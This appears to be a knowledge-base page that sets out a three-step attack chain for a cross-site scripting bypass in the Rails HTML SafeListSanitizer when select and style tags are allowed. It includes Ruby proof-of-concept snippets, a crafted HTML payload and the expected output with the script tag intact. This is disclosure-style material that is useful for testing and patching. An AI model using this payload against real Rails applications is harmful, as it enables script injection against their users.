

# XSS Bypass in Rails HTML Sanitizer via Select and Style Tags

Multi-stage attack chain demonstrating a complete attack workflow exploiting a vulnerability in Rails::Html::SafeListSanitizer. The chain leverages parsing discrepancies in the Nokogiri library between JRuby (using nekohtml) and CRuby implementations. By permitting 'select' and 'style' tags, crafted HTML input can nest executable script tags within style elements, bypassing sanitization and enabling cross-site scripting (XSS) attacks. This allows arbitrary JavaScript execution in Rails applications that use this sanitizer without strict tag restrictions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nokogiri]]
- [[tools/rails-html-sanitizer]]

### Target Environment

- Ruby on Rails application using Rails::Html::SafeListSanitizer
- JRuby or CRuby with Nokogiri for HTML parsing
- No specific ports or services; executed in a Ruby REPL or script

### Initial Access Requirements

- Access to a Rails environment where HTML sanitization can be configured (e.g., developer console or test setup)
- No credentials needed; assumes control over sanitizer configuration

## Detailed Attack Procedures

### Step 1: Configure Sanitizer Permissions
procedure: [[procedures/Configure-Rails-HTML-Sanitizer-to-Permit-Select-and-Style-Tags]]

**Objective**: Set up the Rails HTML sanitizer to allow 'select' and 'style' tags, creating the conditions for the bypass.

**Instructions**: Define allowed tags using Ruby array syntax in the sanitizer configuration. This step exploits the permissive setup that fails to scrub nested elements properly.

Execute [[commands/rails-sanitizer-configure-tags]] to prepare the tags:

```ruby
tags = %w(select style)
```

**Expected Output**: Allowed tags array: ["select", "style"]

**Success Indicators**:
- Tags successfully defined without errors
- Sanitizer instance can be created with these tags

### Step 2: Craft and Inject Malicious Input
procedure: [[procedures/Craft-and-Inject-Malicious-HTML-Input]]

**Objective**: Create and submit HTML input that nests a script tag within style via parsing quirks, evading sanitization.

**Instructions**: Use a crafted string like '<select<style/>W<xmp<script>alert(1)</script>' which, due to Nokogiri differences, results in improper nesting. Pass this to the sanitizer.

Provide the input as a string variable for processing in the next step.

**Expected Output**: Malicious HTML string ready for sanitization.

**Success Indicators**:
- Input string parsed without immediate rejection
- No preprocessing errors in the Ruby environment

### Step 3: Observe Sanitized Output for XSS
procedure: [[procedures/Sanitize-Input-and-Verify-Script-Preservation]]

**Objective**: Run the sanitization and confirm the script tag persists, enabling JavaScript execution.

**Instructions**: Call the sanitize method with the configured tags and input. In JRuby, the output retains the script; similar in CRuby for certain fragments.

Execute [[commands/rails-sanitizer-xss-bypass-demo]] to sanitize and print:

```ruby
tags = %w(select style)
puts "------------------------------------------------------------------"
puts "use Rails::Html::SafeListSanitizer.new.sanitize, allow select/style tag"
puts "input: <select<style/>W<xmp<script>alert(1)</script>"
puts "output: "+Rails::Html::SafeListSanitizer.new.sanitize("<select<style/>W<xmp<script>alert(1)</script>", tags: tags).to_s
puts "------------------------------------------------------------------"
```

Or test a direct fragment with [[commands/rails-sanitizer-direct-fragment-test]]:

```ruby
frag = "<select><style><script>alert(1)</script></style></select>"
tags = %w(select style)
puts Rails::Html::SafeListSanitizer.new.sanitize(frag, tags: tags)
```

**Expected Output**: For the first: "output: <select><style>W<script>alert(1)</script></style></select>". Script tag preserved, allowing alert(1) execution if rendered.

**Success Indicators**:
- Script tag appears in sanitized HTML
- No scrubbing of nested JavaScript

## Attack Chain Summary

### Key Achievements

1. Bypassed HTML sanitization by exploiting Nokogiri parsing differences
2. Preserved executable script tags in output
3. Enabled potential XSS for arbitrary code execution in Rails apps

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
